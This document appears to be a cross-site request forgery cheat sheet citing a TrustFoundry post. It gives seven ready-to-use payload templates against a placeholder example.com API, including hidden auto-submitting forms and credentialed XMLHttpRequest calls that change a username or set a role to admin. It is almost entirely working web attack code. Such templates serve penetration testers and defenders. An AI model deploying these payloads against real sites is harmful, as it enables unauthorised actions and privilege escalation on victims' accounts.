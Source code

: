 ## 1. HTML GET - Requiring User Interaction
```
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```
## 2. HTML GET - No User Interaction
```
<img src="http://www.example.com/api/setusername?username=CSRFd">
```
## 3. HTML POST – Requiring User Interaction for Proof-of-Concept
```
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
<input name="username" type="hidden" value="CSRFd" />
<input type="submit" value="Submit Request" />
</form>
```
## 4. HTML POST (AutoSubmit – No User Interaction)
```
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST"&>
<input name="username" type="hidden" value="CSRFd" />
<input type="submit" value="Submit Request" />
</form>

<script>
document.getElementById("autosubmit").submit();
</script>
```
## 5. JSON GET – Simple Request
```
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```
## 6. JSON POST – Simple Request
```
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```
## 7. JSON POST – Complex Request
```
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

### References: 
https://trustfoundry.net/2016/04/03/cross-site-request-forgery-cheat-sheet/
